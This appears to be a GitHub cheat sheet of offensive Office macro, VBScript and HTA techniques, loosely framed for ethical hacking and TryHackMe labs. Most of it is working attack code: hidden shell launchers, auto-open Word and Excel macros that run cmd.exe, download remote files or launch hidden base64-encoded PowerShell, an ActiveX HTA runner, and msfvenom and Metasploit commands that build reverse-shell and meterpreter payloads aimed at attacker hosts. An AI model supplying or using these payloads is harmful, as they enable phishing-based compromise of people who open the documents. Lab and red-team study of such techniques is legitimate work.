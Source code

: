 # Useful Visual Basic for Applications

Beware these uses for VBA, if you find code like this on your computer tell a member of IT. I don't how you got here, unless you have good ethical hacking reasons in which case enjoy true horror of VBA scripts, as many as I find and explain their cool use cases.

#  VB script shell:
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
If .vbs is blacklisted run using wscript /e:VBScript with a rename to script.txt 

# Visual Basic 4 Apps 

### Word Macro shell:
```vb
Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### HTML application:

Also known as HTA, these are dynamic html pages host with a python3 -m http.sever 1337
```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```


OR
```bash
reverse shell with netcat
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
OR 
```bash
metasploit: msfconsole -q
use exploit/windows/misc/hta_server
```

### Excel HTA

Excel HTA macro from THM Throwback

```vb
Sub HelloWorld()
    PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://ip/passwd -OutFile C:\passwd", vbNormalFocus)
End Sub

Sub Auto_Open()
    HelloWorld
End Sub
```

### Metasploit VBA

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```

# Encoded Payloads

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = "powershell.exe -nop -w hidden -e base64encoded"
    Str = Str + "base64encodepayloadappendstrequalstring"
  	...
	Str = Str + "endofthebase64=="

    CreateObject("Wscript.Shell").Run Str
End Sub
```